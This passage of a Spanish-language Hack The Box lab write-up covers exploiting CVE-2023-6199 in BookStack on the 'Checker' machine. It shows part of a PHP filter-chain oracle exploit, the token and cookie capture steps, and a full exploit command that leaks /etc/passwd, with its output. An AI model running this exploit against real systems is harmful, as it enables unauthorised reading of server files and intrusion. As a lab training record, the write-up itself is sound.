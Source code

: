 ```python
        if self.match:
            # DEBUG print("PATT", (self.match in requ.text))
            return self.match in requ.text 

        if self.time_based_attack:
            # DEBUG print("ELAP", requ.elapsed.total_seconds() > ((self.time_based_attack/2)+0.01))
            return requ.elapsed.total_seconds() > ((self.time_based_attack/2)+0.01)
        
        # DEBUG print("CODE", requ.status_code == 500)
        return requ.status_code == 500
```

* Obtengo el token `X-CSRF-TOKEN` desde el código fuente de la aplicación.
* Creo un nuevo libro desde el menú `Books` > `Create New Book` > `Create a new page`.
* Intercepto la solicitud de `Save Draft` con BurpSuite para capturar, la cookie `bookstack_session` y la URL usada por el cliente para guardar la pagina `/ajax/page/12/save-draft`.

Ejecuto el exploit apuntando al archivo `/etc/passwd` y confirmo la lectura del archivo objetivo.

```terminal
/home/kali/Documents/htb/machines/checker:-$ python3 filters_chain_oracle_exploit.py --parameter html --headers '{"Content-Type": "application/x-www-form-urlencoded","X-CSRF-TOKEN":"XoJ6BnOXK7EenZqt7MMMcK7ntqaB1loUhMbgxvxD","Cookie":"bookstack_session=eyJpdiI6IjNSTkhhN2oxOUkvdFNCR21wMXBJOXc9PSIsInZhbHVlIjoiaUpMWGpnT2NzeUtTMEoyVlMxWWRpVzMzd3hVajdyNExnaVRRbHdwOFhKcFBqYzFsNW95RXZNZ0pJSGsya25pSVVOeEtaQWF3SStUMi9jNElRcTIwUFRiQ3hZM0FHSkpHa2dXajJuN1c1SUVNOFMvcFFCMFFXUUZKdGFLY3ozR1kiLCJtYWMiOiIxNGFhMzM0OGMyYjg2ZDA4M2FkYTM1YjAwNTNlMWRhYjA0YTVlNDc1Mzc2MjRiZDU1NDgwOTc1N2RjMDg3YmM5IiwidGFnIjoiIn0%3D"}' --verb PUT --target http://checker.htb/ajax/page/12/save-draft --file '/etc/passwd'
[*] The following URL is targeted : http://checker.htb/ajax/page/12/save-draft
[*] The following local file is leaked : /etc/passwd
[*] Running PUT requests
[*] Additionnal headers used : {"Content-Type": "application/x-www-form-urlencoded","X-CSRF-TOKEN":"XoJ6BnOXK7EenZqt7MMMcK7ntqaB1loUhMbgxvxD","Cookie":"bookstack_session=eyJpdiI6IjNSTkhhN2oxOUkvdFNCR21wMXBJOXc9PSIsInZhbHVlIjoiaUpMWGpnT2NzeUtTMEoyVlMxWWRpVzMzd3hVajdyNExnaVRRbHdwOFhKcFBqYzFsNW95RXZNZ0pJSGsya25pSVVOeEtaQWF3SStUMi9jNElRcTIwUFRiQ3hZM0FHSkpHa2dXajJuN1c1SUVNOFMvcFFCMFFXUUZKdGFLY3ozR1kiLCJtYWMiOiIxNGFhMzM0OGMyYjg2ZDA4M2FkYTM1YjAwNTNlMWRhYjA0YTVlNDc1Mzc2MjRiZDU1NDgwOTc1N2RjMDg3YmM5IiwidGFnIjoiIn0%3D"}
cm9vdDp4OjA6MDpyb290Oi9yb29
[*] File leak gracefully stopped.
[+] File /etc/passwd was partially leaked
cm9vdDp4OjA6MDpyb290Oi9yb29
b'root:x:0:0:root:/root:/bin/bash'
```

{% include embed/video.html src='assets/img/htb-writeup-checker/checker3_2.webm' types='webm' title='CVE-2023-6199 Exploitation' autoplay=true loop=true muted=true %}

---
### Vulnerability Exploitation

El servicio SSH para el usuario reader está protegido mediante 2FA. Aunque la clave secreta suele ubicarse en /home/reader/.google_authenticator, el intento de lectura directa falla usando el script de explotación. Enumerando el contenido disponible en BookStack, se encuentra un libro llamado Linux Security con varias páginas. Una de ellas, titulada Basic Backup with cp, describe dos scripts de respaldo: uno seguro y otro inseguro. El script inseguro utiliza cp sin preservar permisos ni propietarios, exponiendo potencialmente archivos sensibles si se ejecuta en el sistema real.
